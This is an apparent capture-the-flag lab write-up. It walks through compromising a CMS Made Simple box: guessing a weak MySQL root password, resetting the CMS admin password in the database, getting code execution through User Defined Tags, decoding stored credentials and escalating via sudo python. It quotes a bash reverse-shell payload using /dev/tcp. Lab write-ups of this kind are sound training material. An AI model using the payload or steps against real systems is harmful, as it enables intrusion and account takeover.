

In this lab, attackers first exploit a weak MySQL root password to access the database. By resetting the CMS admin password directly in the database, they gain administrative access to the CMS MS portal. A Remote Code Execution (RCE) vulnerability is leveraged through User Defined Tags to achieve a shell. Privilege escalation is then completed by recovering encoded credentials and exploiting misconfigured sudo permissions on the /usr/bin/python binary to obtain root access.
Nmap scanning the given IP shows us:
We see there are four ports open, 22 — ssh, 80 — http, 3306 — mysql and 33060 — mysqlx. Since we don't see anything out of the ordinary with the ports and no given creds, lets check out port 80.
We are greeted with a website made with CMS.
Exploring the website does yield too much but a bunch of info about CMS but two things. There is a link to a
login page, and we are given the version CMS is running. The login page for now is not useful since we
don't have creds and testing common defaults like admin:admin did not work.
Doing some quick google on the CMS version leads me to a PDF on
exploit-db.
From their exploitation they connected to the sql database, which we shall do then. Since they were able to
access without much problem, we can guess their password was not too complex. After a few tries, we are in.
Let's poke around the database.
We can see there are 5 databases, but the one that stands out is cmsms_db. Going into and showing the table gives us a big list. In the big list cm_users seem pretty promising.
We now know what the username is, admin and a password in the hashed form. Let's check if crackstation had the decrypted password.
Ok, what about john, that also failed. Alright, if we cant crack it can we change it? Yes, from the csm reset-page it shows how to change the password.

Lets login through the link we found on the main webpage.
We are now in WOOWOO!
Now the main exploit of version 2.2.13 from the report was User Defined Tags.
We can do a quick reverse shell by pasting the command in user_agent:
system("bash -c 'bash -i >& /dev/tcp/UR IP/PORT 0>&1'");
Click apply and then run and boom
WE ARE IN
Do some shell stabilization to get the good one, and now it's time to hunt for the first flag and ways to get into
a more privileged user.
Poking around the first flag can be found two directories back.
Let's go back to where they put us in first and see if there is anything interesting.
We see a hidden file named htpasswd, which should sounds some alarm bells. Catting the fill shows us a hashed string, which I assume is a password of sorts.
Let's try to decrypt the hash first, pasting into cyberchef it suggest using base64 first, which turns into another
hash, which used base32 to turn into the final string with the username and password.
armour:-----------
Trying to ssh in we get block pretty hard so lets try su instead.
BEANS, lets see what these users have access to.
We have access to some big stuff
We can check the GTFObins for python and scroll to the sudo section and paste that in to escalate our
privileges.
BOOM!
WE ARE DONE!